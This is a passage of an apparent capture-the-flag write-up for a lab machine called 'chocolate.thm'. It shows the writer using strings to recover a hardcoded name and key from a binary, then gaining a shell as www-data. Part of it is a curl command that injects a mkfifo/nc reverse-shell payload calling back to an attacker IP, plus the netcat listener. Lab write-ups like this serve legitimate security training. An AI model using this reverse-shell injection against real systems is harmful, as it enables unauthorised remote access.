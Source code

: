 then i downloaded the file with `wget` to my kali machine.

```shell
$ wget http://chocolate.thm/key_rev_key
```

it was a binary that wanted a name

```shell
$ ./key_rev_key
Enter your name: charlie
Bad name!
```

 i started with `strings`  and checked if the input was compared to something readable.
 there was a name called `laksdhfas`

```shell
$ strings key_rev_key

[]A\A]A^A_
Enter your name:
laksdhfas
 congratulations you have found the key:
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
Bad name!
;*3$"
```

i double checked and got a key.

```shell
$ ./key_rev_key
Enter your name: laksdhfas

 congratulations you have found the key:   b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
 Keep its safe
```

 i tried for a bit to decode the key string, but was not lucky. to not waste more time i moved on and wanted to get a reverse shell. 
 first start the listener on my kali machine.

```shell
nc -lvnp 4444
```

after a few failed tries i got the shell with that command.

```shell
curl --data-urlencode "command=mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> 4444 >/tmp/f" http://chocolate.thm/home.php
```

as user `www-data`

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.29.182] 51176
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root),27(sudo)
```
